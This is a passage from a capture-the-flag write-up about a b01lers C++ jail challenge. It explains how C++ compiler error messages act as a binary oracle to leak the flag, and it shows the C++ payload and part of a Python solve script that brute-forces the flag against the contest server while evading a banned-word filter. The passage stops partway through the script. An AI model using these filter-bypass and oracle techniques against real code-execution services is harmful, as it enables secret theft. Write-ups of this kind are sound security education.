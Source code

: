As we can see, because the C++ preprocessor evaluates the macros **before** type checking, the value inside the template for `flag[i] == c` is actually evaluted **before** type checking occurs which allows us to view the evaluated value inside of the compilation error message. This is really powerful because since we cannot define our own types to be more precise when trying to set up the above oracle this normally would mean that we cannot have precise error messages only when we have a positive result from the oracle, however, because the preprocessor expands the template before type checking this allows us to view the value of `flag[i] == c` inside of the compilation error message so we can just view the contents of the error message itself as our binary oracle. The filter restricts a lot of primitive types in addition to building classes and structs but we can still use the `bool` primitive type so I adjusted the oracle to use the `bool` type instead of the `Key` type since we don't actually care whether or not `oracle.k` type checks and instead we just want to generate always generate type check errors to use the oracle in the error message exfiltrate the flag.

```cpp
typename Jail<Prisoner>::template lock<'a', 0> oracle;
bool leak = oracle.k;
```

## Getting the Flag
I wrote an initial solve script to exfiltrate the flag by brute forcing the flag character by character. The b01lers CTF website provides that the regex for their flags is `bctf{[ -~]+}` so this allows us to construct a complete alphabet. There are a couple issues though with the above binary oracle due to this alphabet. The filter also restricts the characters `#` and `*` which are valid characters within the flag alphabet. This causes a problem if one of the characters in the flag is `#` or `*` since we can't exfiltrate these characters since injecting this into the source code is prevented by the filter (in fact, I was only able to exfiltrate **half** of the flag initially due to this problem). The final way to bypass this is to use the **order** (or ASCII value) of each character in the alphabet rather than the actual `char` itself. This is because within C/C++ since we can represent `char`s as `int`s. Special thanks to a couple members of my team ([Ronak](https://github.com/r2dev2), [Salma](https://github.com/ssalandary), and club alumni Aaron) for helping provide a sanity check to figure out this last part of the challenge. I updated my solve script and managed to finally get the flag! The full solve script is included below.

```python
#!/usr/bin/env python3
from pwn import *
import re

alphabet = ' !"#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}'

banned_words = [
    "#", "define", "include",
    "//",
    "ifndef", "ifdef",
    "Lock", "Key",
    "class", "struct",
    "*", "int", "char", "short", "long",    
    " "
]

flag = ""
while len(flag) != 53:
    i = len(flag)
    for c in alphabet:
        log.info(f"Trying {flag + c}")

        r = remote('gold.b01le.rs', 7003)
        payload = f"""
        typename Jail<Prisoner>::template lock<{ord(c)}, {i}> oracle;
        bool leak = oracle.k;
        """.replace('\n', '').replace(' ', '\t')

        # sanity checks
```